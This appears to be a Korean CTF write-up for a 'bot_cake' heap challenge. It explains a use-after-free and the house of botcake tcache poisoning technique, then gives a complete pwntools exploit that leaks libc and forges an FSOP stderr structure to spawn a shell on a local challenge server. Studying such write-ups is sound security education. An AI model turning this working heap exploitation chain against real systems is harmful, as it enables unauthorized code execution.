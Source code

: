 # bot_cake

#### 출제자 : 조수호 / shielder

## Concept

- UAF, DFB, tcache poisoning, house of botcake

## Writeup

```bash
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
```
모든 보호 기법이 켜져 있습니다.

이 문제에는 한 개의 숨겨진 함수를 포함한 4개의 함수와 종료 기능이 있습니다. note challenge의 형식을 띄고 있습니다. 인덱스는 0 이상 32 미만으로 관리하고 있으며 `oob`는 발생하지 않고, `stack, heap based overflow`도 발생하지 않습니다.

```c
void create(){
    unsigned int idx = 0;
    int n = 0;
    char buf[0x204], buf2[0x204];
    char * ptr = NULL;
    memset(buf, 0, sizeof(buf));
    memset(buf2, 0, sizeof(buf2));
    printf("index : ");
    scanf("%u", &idx);
    if(idx >= 0x20){
        puts("Nope");
        return;
    }

    printf("name of food : ");
    read(0, buf, 0xf0);

    n = snprintf(buf2, 0x100, "bot_cake submit food name : %s", buf);
    if(n < 0){
        puts("Oops");
        return;
    }

    if(foods[idx] != NULL) free(foods[idx]);
    ptr = malloc(n < 0x100 ? 0x100 : n);
    if(ptr == NULL){
        puts("Oops");
        return;
    }

    if(!strncmp(buf, "cake", 4)){
        puts("You don't give cake");
        return;
    }

    foods[idx] = ptr;

    memcpy(ptr, buf2, n + 1);
}
```
1번 메뉴에서 코드의 흐름을 보시면, `free` -> `malloc` -> `condition check` -> `substitution` 로 이루어져 있습니다. 이 때 `condition check`를 실패하면, 대입이 이루어지지 않아 `UAF`가 발생합니다.
이 문제에 `edit` 함수가 없기 때문에 `tcache poisoning`을 위해 다른 방법을 강구해야 합니다. 이 문제의 제목에서 [`house of botcake`](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) 기법을 떠올릴 수 있습니다. 기법에 대한 설명은 `how2heap`의 poc 코드로 대체하겠습니다. `house of botcake`를 위해서는 두 가지 크기의 청크를 할당받을 수 있어야 합니다. 이 문제에서 청크의 크기를 아래와 같이 설정하고 있습니다.
```c
n = snprintf(buf2, 0x100, "bot_cake submit food name : %s", buf);
ptr = malloc(n < 0x100 ? 0x100 : n);
```
이 때 `snprintf`의 반환값은 실제 저장된 수가 리턴되는 것이 아니라, 버퍼가 충분한 상황에서의 출력된 문자 수가 리턴됩니다. 따라서 n은 0x109 이상의 값을 가질 수 있기 때문에 우리는 0x110, 0x120의 크기를 가지는 청크를 할당할 수 있습니다. 이를 이용하여 FSOP를 진행하여 쉘을 따냅니다.

## ex.py

```python
from pwn import *

binary = './prob'
 
context.binary = binary
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = remote("localhost", 8010)
#p = process(binary)
l = ELF('./libc.so.6')

def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

def create(idx : int,  ctt : bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(idx).encode())
    p.sendafter(b': ', ctt)

def read(idx : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())
    return p.recvline()

def delete(idx : int):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b': ', str(idx).encode())
    
def edit(idx : int,  ctt : bytes):
    p.sendlineafter(b'> ', str(0x1337).encode())
    p.sendlineafter(b': ', str(idx).encode())
    p.sendafter(b': ', ctt)

prefix = b'bot_cake submit food name : '

for i in range(11):
    create(i, b'a' * 0xf0)
for i in range(7):
    create(i, b'cake')
create(7, b'cake')

heap_base = u64(read(0)[:5].ljust(8, b'\x00')) << 12
assert (heap_base >> 44) == 0x5 or (heap_base >> 44) == 0x6 # if the exploit fails here, just restart
print(hex(heap_base))


l.address = u64(read(7)[:6].ljust(8, b'\x00')) - 0x21adf0
assert (l.address >> 44) == 0x7 # if the exploit fails here, just restart
print(hex(l.address))

print(hex(l.sym['_IO_2_1_stderr_']))
fake_fsop_struct = l.sym['_IO_2_1_stderr_']
stderr_lock = l.address + 0x21ca70
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stderr_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x40,
    _mode=0xFFFFFFFF,
)

delete(7)
delete(8)
delete(9)
create(10, b'cake')
create(11, b'a' * 0xf0)
delete(10)
create(12, b'a')
create(13, b'a')
create(14, b'a' * (0x28 - len(prefix)) + b'b' * 8 + p64((fake_fsop_struct) ^ (heap_base >> 12)))
for i in range(7, 2, -1):
    delete(14)
    create(14, b'a' * (0x28 - len(prefix)) + b'a' * i)
delete(14)
create(14, b'a' * (0x28 - len(prefix)) + p64(0x121))
create(15, b'a' * 0xf0)
edit(0x110, FSOP)
p.interactive()
```